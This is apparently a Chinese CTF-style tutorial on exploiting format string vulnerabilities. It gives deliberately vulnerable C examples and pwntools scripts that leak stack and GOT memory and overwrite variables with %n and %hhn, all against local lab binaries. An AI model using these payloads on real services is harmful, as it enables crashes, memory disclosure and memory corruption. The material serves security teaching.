# 格式化字符串漏洞利用

格式化字符串漏洞的两个利用手段：

- 使程序崩溃，因为%s对应的参数地址不合法的概率比较大
- 查看进程内容，根据%d，%f输出栈上的内容

## 程序崩溃

通常来说，利用格式化字符串漏洞使得程序崩溃是最为简单的利用方式，因为我们只需要输入若干个 %s 即可`%s%s%s%s%s%s%s%s%s%s%s%s%s%s`
这是因为栈上不可能每个值都对应了合法的地址，所以总是会有某个地址可以使得程序崩溃。这一利用，虽然攻击者本身似乎并不能控制程序，但是这样却可以造成程序不可用。比如说，如果远程服务有一个格式化字符串漏洞，那么我们就可以攻击其可用性，使服务崩溃，进而使得用户不能够访问。

## 泄露内存

格式化字符串漏洞的两种利用姿势

- 泄露栈内存
  - 获取某个变量的值
  - 获取某个变量对应地址的内存
- 泄露任意地址内存
  - 利用GOT表得到libc函数地址，进而获取libc，然后获取其他libc函数地址
  - 盲打，dump整个程序，获取有用信息

### 泄露栈内存

例程，

```c++
    // leakmemory.c
    #include <stdio.h>
    int main() {
    char s[100];
    int a = 1, b = 0x22222222, c = -1;
    scanf("%s", s);
    printf("%08x.%08x.%08x.%s\n", a, b, c, s);
    printf(s);
    return 0;
    }
```

编译：`gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c`，编译时，编译器会指出程序中没有给出格式化字符串的参数的问题。
根据 C 语言的调用规则，格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为其参数 (64 位会根据其传参的规则进行获取)

#### 获取栈变量数值

通过格式化字符串来获取栈上变量的数值



通过输入%x确实可以看到一些内容。接下来配合gdb调试关注代码段和栈。
首先，在printf函数处下断：



运行程序后输入`%08x.%08x.%08x`使程序继续运行，然后在第一次调用printf函数处断下：



此时已经进入到printf函数，栈中第一个变量为返回地址，第二个变量为格式化字符串的地址，第三个变量为a的值，第四个变量为b的值，第五个变量为c的值，第六个变量为我们输入的格式化字符串对应的地址。继续运行程序：



此时，由于格式化字符串为`%x%x%x`,所以程序会将栈上的0xffffcef4 及其之后的数值分别作为第一、二、三个参数按照int型进行解析，分别输出。继续运行程序：



可以看到和预想的结果一致。这里需要注意的是，并不是每次得到的结果都一样 ，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的。
上面的方法中，都是依次获得栈中的每个参数，通过`%n$x`可以直接获取栈中被视为第n+1个参数（格式化参数里面的n指的是该格式化字符串对应的第n个输出参数，那相对于输出函数来说，就是第n+1个参数）
继续使用gdb调试：





显然，确实获得了printf的第4个参数所对应的值0xf7e906b

#### 获取栈变量对应字符串

除了获取变量数值之外，还可以通过%s来获得对应的字符串。
继续使用gdb调试：




第二次执行时printf函数时，确实将0xffffcef4处的变量视为字符串变量，输出了其数值所对应的地址处的字符串



当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。

总结：

>   1. 利用 %x 来获取对应栈的内存，但建议使用 %p，可以不用考虑位数的区别。
>   2. 利用 %s 来获取变量所对应地址的内容，只不过有零截断。
>   3. 利用 `%order$x`来获取指定参数的值，利用 `%order$s`来获取指定参数对应地址的内容。

### 泄露任意地址内存

对于前面的泄露，并不能完全控制所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，可能会想要泄露某一个 libc 函数的 got 表内容，从而得到其地址，进而获取 libc 版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。
一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的（因为是某个函数的局部变量）。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。
继续使用gdb调试：



可以知道栈上第二个变量就是我们的格式化字符串地址0xffffcd10,同时该地址也确实是“%s”格式化字符串的内容。
那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第 k 个参数。那我们就可以通过`addr%k$s`来获取某个指定地址 addr 的内容。
 在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址 8 字节或者 16 字节。
 可以通过如下方式确定偏移即该格式化字符串为第几个参数：

```bash
 [tag]%p%p%p%p%p%p...
```

一般来说，我们会重复某个字符的机器字长来作为 tag，而后面会跟上若干个 %p 来输出栈上的内容，如果内容与我们前面的 tag 重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符



由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，但是是格式化字符串的第 4 个参数



测试发现程序崩溃了，这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，所以程序崩溃了





显然 0xffffcf00 处所对应的格式化字符串所对应的变量值 0x73243425 并不能够被改程序访问，所以程序就自然崩溃了。
不过我们可以设置一个可访问的地址，比如scanf@got。



利用pwntools构造payload如下

```python
    from pwn import *
    sh = process('./leakmemory')
    leakmemory = ELF('./leakmemory')
    __isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
    print hex(__isoc99_scanf_got)
    payload = p32(__isoc99_scanf_got) + '%4$s'
    print payload
    gdb.attach(sh)
    sh.sendline(payload)
    sh.recvuntil('%4$s\n')
    print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
    sh.interactive()
```

运行脚本后，在弹出的terminal中给printf下断，继续执行






最后可以看到确实得到了scanf的地址



但是，并不是说所有的偏移机器字长的整数倍，可以让我们直接相应参数来获取，有时候，我们需要对我们输入的格式化字符串进行填充，来使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处，一般来说形如`[padding][addr]`

> 需要注意的是，我们不能直接在命令行输入 `\ x0c\xa0\x04\x08%4$s` 这是因为虽然前面的确实是 printf@got 的地址，但是，scanf 函数并不会将其识别为对应的字符串，而是会将 \,x,0,c 分别作为一个字符进行读入。

## 覆盖内存

如果变量对应的地址可写，就可以利用格式化字符串来修改其对应的数值。
`%n,不输出字符，但是把已经成功输出的字符个数写入到对应的整型指针参数所指的变量。（写入的是字符个数即整型数，而不是字符本身）`

例程，

```c++
    // overflow.c
    #include <stdio.h>
    int a = 123, b = 456;
    int main() {
    int c = 789;
    char s[100];
    printf("%p\n", &c);
    scanf("%s", s);
    printf(s);
    if (c == 16) {
        puts("modified c.");
    } else if (a == 2) {
        puts("modified a for a small number.");
    } else if (b == 0x12345678) {
        puts("modified b for a big number!");
    }
    return 0;
    }
```

无论是覆盖哪个地址的变量，我们基本上都是构造类似的 `payload=...[overwrite addr]....%[overwrite offset]$n`
其中... 表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。
一般来说是如下步骤：

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

### 覆盖栈内存

#### 确定覆盖地址

确定要覆盖栈变量的地址，由于aslr保护，栈的地址一直在变。不过在例程中故意输出了c变量的地址。

#### 确定相对偏移

确定存储格式化字符串的地址是printf将要输出的第几个参数。




可以发现是printf的第七个参数即格式化字符串的第六个参数。

#### 进行覆盖

第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。
`payload=[addr of c]%012d%6$n`
addr of c 的长度为 4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 c 的值为 16。(%n将输出字符的个数写入到对应的整型指针参数所指的变量，要使c==16,这里就需要16个字符)

```python
    from pwn import *
    def forc():
        sh = process('./overflow')
        c_addr = int(sh.recvuntil('\n', drop=True), 16)
        print hex(c_addr)
        payload = p32(c_addr) + '%012d' + '%6$n'
        # %012表示用0填充12个字符，32位程序下地址为4字节%d之后即为8个字符，所以%0kd,小于8时，c_addr处的值为0xc
        print payload
        #gdb.attach(sh)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()
    forc()
```

运行结果：



### 覆盖任意地址内存

#### 覆盖小数字

对于 data 段的变量为一个较小的数字，比如说，小于机器字长的数字，如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个 (4 或 8) 字节。显然，无论之后如何输出，都只会比 4 大。不过我们并没有必要一定要将要覆盖的变量地址放到字符串的最前面。为了寻找偏移，所以才把 tag 放在字符串的最前面，如果我们把 tag 放在中间，其实也是无妨的类似的，我们把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。
如果想要将2写入到对应的地址处，格式化字符串的前面字节就必须为`aa%k$nxx`
此时对应的存储的格式化字符串(`%k$nxx`已经占据了 6 个字符的位置，如果我们再添加两个字符 aa，那么其实 aa%k 就是第 6 个参数，$nxx 其实就是第 7 个参数，后面我们如果跟上我们要覆盖的地址，那就是第 8 个参数，所以如果我们这里设置 k 为 8，其实就可以覆盖了。
同理，如果想要将3写入到对于的地址处，则为`aaa%k$nx`,将1写入时为`a%k$nxxx`。
通过ida得到a的地址(已初始化的全局变量在.data节中)为0x0804A024
所以有

```python
    from pwn import *
    def fora():
        sh = process('./overflow')
        a_addr = 0x0804A024
        payload = 'aa%8$naa' + p32(a_addr)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()
```

结果如下：



#### 覆盖大数字

所有的变量在内存中都是以字节进行存储的。此外，在 x86 和 x64 的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678 在内存中由低地址到高地址依次为 \ x78\x56\x34\x12。

> hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
> h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。

我们可以利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节。
通过ida可以知道b的地址为0x0804A028，我们希望的覆盖方式为：

```bash
    0x0804A028 \x78
    0x0804A029 \x56
    0x0804A02a \x34
    0x0804A02b \x12
```

格式化字符串的偏移为6，所以`payload=p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'`

通过脚本计算并构造payload

```python
    from pwn import *

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr

    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload

    def forb():
        sh = process('./overflow')
        payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
        print payload
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

    forb()
```

其中，offset 表示要覆盖的地址最初的偏移；size 表示机器字长；addr 表示将要覆盖的地址；target 表示我们要覆盖为的目的变量值。

运行结果如下：

